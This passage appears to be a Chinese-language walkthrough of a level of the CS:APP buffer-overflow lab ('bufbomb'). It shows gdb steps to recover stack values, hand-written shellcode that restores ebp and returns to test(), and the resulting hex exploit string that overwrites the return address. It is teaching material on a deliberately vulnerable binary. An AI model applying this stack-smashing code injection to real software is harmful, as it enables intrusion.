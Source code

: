 ```
$gdb bufbomb
(gdb) b *0x8048c8b  (0x8048c8b是test()中call getbuf下一句的地址)
Breakpoint 1 at 0x8048c8b
(gdb) r xxxx -u yy
Starting program: /media/psf/Home/Documents/csapplabs/3-buflab/bufbomb xxxx -u yy
Userid: yy
Cookie: 0x2a50279f
Breakpoint 1, 0x08048c8b in test ()
(gdb) p /x $ebp
$1 = 0x55683b30
```

由此我们知道了test()中的ebp了.
接着，在buf_asm中查看test的汇编代码，有

```
 8048c8e: e8 71 ff ff ff       call   8048c04 <getbuf>
 8048c93: 89 c3                mov    %eax,%ebx
```

得知getbuf()正确的返回地址为0x8048c93,我们还是用level2中push-ret的方法跳回test.可以着手写代码了。

```
mov $0x2a50279f,%eax             //把我们的cookie值赋给%eax
mov $0x55683b30,%ebp             //恢复test()的%ebp
push $0x8048c93                  //推立即数0x8048c93入栈
ret
```

保存为rettest.s

```
$gcc -m32 -c rettest.s
$objdump -d rettest.o > rettest_asm
```

查看rettest_asm得到我们的机器码

```
rettest.o:     file format elf32-i386
Disassembly of section .text:
00000000 <.text>:
   0: b8 9f 27 50 2a         mov    $0x2a50279f,%eax
   5: bd 30 3b 68 55         mov    $0x55683b30,%ebp
   a: 68 93 8c 04 08         push   $0x8048c93
   f: c3                              ret   
```

把这些十六进制机器码写入文件in3

```
b8 9f 27 50 2a bd 30 3b 68 55
68 93 8c 04 08 c3 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 d8 3a 68 55
```
